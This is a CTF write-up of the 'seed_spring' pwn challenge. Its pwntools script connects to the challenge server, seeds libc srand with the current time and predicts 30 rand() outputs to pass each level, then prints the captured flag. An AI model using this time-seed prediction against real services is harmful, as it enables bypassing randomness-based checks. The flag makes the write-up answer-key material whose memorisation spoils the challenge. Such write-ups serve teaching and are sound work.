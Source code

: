 https://ctftime.org/event/2416

# seed_spring (pwn)

RANDOMisation successful: Your mission is to jump on the sPRiNG and see how high you can soar. With 30 levels of increasing complexity, you'll need to master the laws of PHYSICS and TIME to reach new heights. Can you crack the code and defy gravity? Let the experiment begin!

nc 34.125.199.248 2534

## Solution

1) seed local srand with same time
2) generate same prng sequence

```python
#!/usr/bin/env python3

from pwn import *
import ctypes

#context.log_level = "debug"
elf = ELF("./seed_spring", checksec=False)
context.binary = elf

libc = ctypes.CDLL("/lib/x86_64-linux-gnu/libc.so.6")

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("34.125.199.248", 2534)

now = libc.time(0)
libc.srand(now)

p.readuntil(b"How high will you fly?\n\n")

for i in range(30):
    p.sendlineafter(b"Guess the height: ", str(libc.rand() & 0xf).encode())

p.interactive() # OSCTF{th1s_w4snt_phys1cs_lm4o}
```

## Flag
`OSCTF{th1s_w4snt_phys1cs_lm4o}`

smiley 2024/07/13
